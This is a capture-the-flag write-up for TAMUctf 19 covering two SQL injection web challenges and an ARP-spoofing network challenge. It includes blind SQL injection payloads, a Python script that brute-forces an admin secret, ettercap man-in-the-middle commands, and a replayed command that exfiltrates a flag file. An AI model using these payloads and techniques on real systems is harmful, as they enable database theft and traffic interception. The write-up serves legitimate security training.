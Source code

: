 # TAMUctf 19

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20190223-tamuctf/) of this writeup.**


 - [TAMUctf 19](#tamuctf-19)
   - [Web](#web)
     - [Bird Box Challenge](#bird-box-challenge)
     - [1337 Secur1ty](#1337-secur1ty)
       - [Failed Attempts](#failed-attempts)
   - [Network/Pentest](#networkpentest)
     - [Copper](#copper)


## Web

### Bird Box Challenge

> bookgin

This is a blind SQL injection challenge.

```
curl "http://web2.tamuctf.com/Search.php?Search='%20or%20''='" -sD -
curl "http://web2.tamuctf.com/Search.php?Search='" -sD -
curl "http://web2.tamuctf.com/Search.php?Search=1" -sD -
```

- SQL syntax error: HTTP 200
- true: HTTP 500 + Nice try, nothing to see here.
- false: HTTP 500 + Our search isn't THAT good...

The HTTP status code is manipulated intentionally.

My payload to retrive all the information:

```
' or (select (select column_name from ((select table_schema,table_name,column_name FROM information_schema.columns where table_schema!='mysql' and table_schema!='information_schema' and table_schema !='sys' and table_schema !='performance_schema') as foo)) like binary "items" ) and ''='
```

- version: `5.7.25-0ubuntu0.18.04.2`
- Database: sqlidb
- Table: Search
- Columns: items
- Rows: `Aggies`, `Trucks`, and `Eggs`

So where is the flag? Hmm... it takes me a few hours to realize that it's hided in the `user()` ....

`gigem{w3_4r3_th3_4ggi3s}@localhost`

### 1337 Secur1ty

> bookgin, KennyTseng


Yey another SQL injnection challenge.

```
http://web6.tamuctf.com/message?id=' or ''='
```

To get the table names and column names first:

```
' or (select (select table_name from ((select table_schema,table_name,column_name FROM information_schema.columns where table_schema!='mysql' and table_schema!='information_schema' and table_schema !='sys' and table_schema !='performance_schema' and table_name != 'Messages' and table_name != 'Users') as foo) limit 1) like "foo%" ) and ''='
```


My script to retrieve admin's secret:

```python
#!/usr/bin/env python3

import requests
s = requests.session()
cookies = dict(userid='3', secret='6IY7TNFKAVT5FNGK')

t = ''
while True:
    for i in 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-.':
        print(t)
        payload = f'''
' or 
(select (select secret from Users where username = "1337-admin") like "{t+i}%")
 and ''='
'''.replace('\n', '')
        r = s.get('http://web6.tamuctf.com/message', params=dict(id=payload), cookies=cookies)
        if 'we need to talk about the cookies' in r.text:
            print(True)
            t+=i
            print(t)
            break
        elif '//' in r.text:
            print(False)
        else:
            print('syntax error')
```

```sh
$ curl 'http://web6.tamuctf.com/' --cookie 'userid=1; secret=WIFHXDZ3BOHJMJSC'

# gigem{th3_T0tp_1s_we4k_w1tH_yoU}
```

#### Failed Attempts

- XSS: No it's not. The message body escapes the html properly.
- SQL injection in registering, editing information, cookies


## Network/Pentest

### Copper

After connect VPN by `sudo openvpn --config copper.ovpn`, I scan the open subnet by `nmap -privileged -v 172.30.0.0/28`.
```
172.30.0.2
8080/tcp open http-proxy

172.30.0.3
```

Then, I use the commands below to catch and format the bridged packets.
```shell
$ ettercap -T -t tcp -M arp:remote /172.30.0.2// /172.30.0.3// -L Sam
$ etterlog -n -s Sam.ecp -F tcp:172.30.0.3:33230:172.30.0.2:6023 >Sam.log.noheader
```

Just a peek over `Sam.log.noheader`
```
YiqMxpZQz+5dPf+qELowBw== 
US5MJOeTx6L69iQT3Y8B9g== 
83jbJmmZc/RUXML8GcGuVg== 
h8zZvECdaFr730Mgo5EgYQ== 
YiqMxpZQz+5dPf+qELowBw== 
RdGNIA97r2yYuQsdXjbQGA== 
S+79/0xJH6oVAqvGSE+Vlw== 
```

Since the problem describe that the user typed the same commands below over and over, I guess they have something to do with the packet captured.
```shell
ls -la
date > monitor.txt
echo "=========================================" >> monitor.txt
echo "ps -aux" >> monitor.txt
ps -aux >> monitor.txt
echo "=========================================" >> monitor.txt
echo "df -h" >> monitor.txt
df -h >> monitor.txt
cp ./monitor.txt /logs
exit
```

Suprisingly, that's true.
```
YiqMxpZQz+5dPf+qELowBw== l
US5MJOeTx6L69iQT3Y8B9g== s
83jbJmmZc/RUXML8GcGuVg== ' '
h8zZvECdaFr730Mgo5EgYQ== -
YiqMxpZQz+5dPf+qELowBw== l
RdGNIA97r2yYuQsdXjbQGA== a
S+79/0xJH6oVAqvGSE+Vlw== <enter>

...
```

Therefore, I construct a mapping from character to HASH. Besides, we can view the content of `monitor.txt` on `http://172.30.0.2:8080/monitor.txt`.
Finally, our payload to get the flag before translated would be
```shell
# Send the hash(payload) to 172.30.0.3:6023
$ cat flag.txt > /logs/h
# If success, we will get response below.
# 92fKIeYPq2HyqG8DSo2Mfw==
```
Then
```shell
$ curl "http://172.30.0.2:8080/h"

# gigem{43s_3cb_b4d_a5c452ed22aa5f1a}
```



